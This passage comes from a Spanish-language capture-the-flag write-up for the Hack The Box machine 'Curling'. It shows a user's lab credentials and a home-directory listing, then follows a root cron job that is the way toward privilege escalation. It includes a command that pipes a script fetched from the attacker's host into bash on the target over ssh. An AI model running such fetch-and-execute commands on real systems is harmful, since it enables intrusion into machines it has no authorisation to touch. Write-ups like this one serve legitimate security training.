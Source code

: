 > creds: floris / 5d\<wdCbdZu)|hChXll

# cat user.txt

```text
floris@curling:~$ ls -lah
total 44K
drwxr-xr-x 6 floris floris 4.0K May 22  2018 .
drwxr-xr-x 3 root   root   4.0K May 22  2018 ..
drwxr-x--- 2 root   floris 4.0K May 22  2018 admin-area
lrwxrwxrwx 1 root   root      9 May 22  2018 .bash_history -> /dev/null
-rw-r--r-- 1 floris floris  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 floris floris 3.7K Apr  4  2018 .bashrc
drwx------ 2 floris floris 4.0K May 22  2018 .cache
drwx------ 3 floris floris 4.0K May 22  2018 .gnupg
drwxrwxr-x 3 floris floris 4.0K May 22  2018 .local
-rw-r--r-- 1 floris floris 1.1K May 22  2018 password_backup
-rw-r--r-- 1 floris floris  807 Apr  4  2018 .profile
-rw-r----- 1 floris floris   33 May 22  2018 user.txt
floris@curling:~$ cat user.txt
```

# Read as root

Comenzamos por realizar una identificación con linenum:

```text
xbytemx@laptop:~/htb/curling$ ssh floris@10.10.10.150 "curl http://10.10.12.67:4001/le.sh | bash" > le.log
floris@10.10.10.150's password:
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 38174  100 38174    0     0  51034      0 --:--:-- --:--:-- --:--:-- 50966
```

Analizando la salida de linenum, no encontraremos una información relevante a la privesc. Sin embargo, revisando aquello en lo que no tenemos permisos, podemos observar que un proceso es ejecutado con los archivos de la carpeta admin-area:

![Cronjobs 2](/img/htb-curling/cronjob2.png)

Este comando se ejecuta cada 60 segundos, según lo que pude ver en `watch -n1 'ps -fea | grep root | grep -v "\["'`

Tenemos luego entonces que root ejecuta cada 60s:

```text
/bin/sh -c sleep 1; cat /root/default.txt > /home/floris/admin-area/input
```

Esto significa que _input_ es reiniciado cada 60 segundos.

Por lo cual podemos concluir que _input_ debe tener alguna relación importante, por lo que veamos el contenido:
